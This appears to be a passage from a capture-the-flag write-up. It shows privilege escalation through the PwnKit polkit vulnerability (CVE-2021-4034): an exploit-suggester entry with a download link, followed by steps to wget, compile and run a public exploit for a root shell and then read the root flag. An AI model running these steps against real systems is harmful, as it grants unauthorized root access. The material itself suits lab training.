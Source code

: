 - We will use the Vulnerability of `[CVE-2021-4034] PwnKit` 
```json
[CVE-2021-4034] PwnKit

Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
Exposure: less probable
Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

- Do the same procedure just like with linpeas.sh, download and collect it with `wget`
- unzip the file with `unzip CVE-2021-4034-main.zip`
- CD into the new folder
- cat README.txt
- We have to compile the C-code
- There is a makefile use the command `make`
- now run the binary file of `cve-2021-4034`
- You now in a root-shell, confirm by using `whoami`
- go to the `/root` directory
- cat the root_flag.txt

![Venus](make_pwnkit.png)
